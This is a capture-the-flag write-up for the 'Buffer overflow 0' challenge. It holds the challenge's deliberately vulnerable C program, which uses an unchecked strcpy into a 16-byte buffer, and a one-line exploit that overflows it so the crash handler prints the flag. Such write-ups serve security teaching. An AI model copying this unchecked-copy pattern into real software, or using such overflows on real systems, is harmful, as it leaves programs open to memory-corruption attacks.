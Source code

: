 Buffer overflow 0 - Points: 150
===========

## Description

>Let's start off simple, can you overflow the right buffer in this program to get the flag? You can also find it in /problems/buffer-overflow-0_1_316c391426b9319fbdfb523ee15b37db

## Hint:

> * How can you trigger the flag to print?
> * If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

## Useful Information

There is no check of the input length at :
> * strcpy(buf, input);

The function : 
> * void sigsegv_handler(int sig)

will print the flag on stderr when a error occured .

## Exploit

```diff
- Making an error by overflowing the buf[16] will _lauch the function_ sigsegv_handler(int sig) which will print the flag on stderr
```
_./vuln $(python -c 'print "A"*50')_        


